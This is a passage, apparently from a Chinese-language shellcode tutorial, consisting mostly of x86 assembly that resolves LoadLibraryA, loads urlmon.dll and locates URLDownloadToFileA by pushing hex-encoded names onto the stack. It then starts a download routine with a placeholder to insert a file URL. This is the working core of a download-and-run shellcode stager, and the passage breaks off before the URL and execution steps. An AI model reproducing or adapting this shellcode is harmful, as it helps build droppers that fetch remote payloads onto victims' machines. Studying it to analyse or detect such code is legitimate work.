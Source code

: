 ```
push eax
push 0x41797261
push 0x7262694c
push 0x64616f4c

push esp
push ecx

call edx

;------------------------
add esp,12

```
* 使用`LoadLibrary`加载加载urlmon.dll
```
;-----------------------------

;LoadLibraryA("urlmon.dll")
xor ecx,ecx

push 0x41416c6c
mov [esp+2],byte cl
push 0x642e6e6f
push 0x6d6c7275

push esp
call eax

;-----------------------

add esp,12
```
* 获得`URLDownloadToFileA`入口
```
;-----------------------
;finding address of URLDownloadToFileA()
xor ecx,ecx
push 0x42424165
mov [esp+2],byte cl
push 0x6c69466f
push 0x5464616f
push 0x6c6e776f
push 0x444c5255

push esp
push eax
call esi

;------------------------
add esp,20
push eax 
```
* 开始下载文件
```
;URLDownloadToFileA(NULL,url,save as,0,NULL)
download:
pop eax
xor ecx,ecx
push ecx

;-----------------------------
;change it to file url

```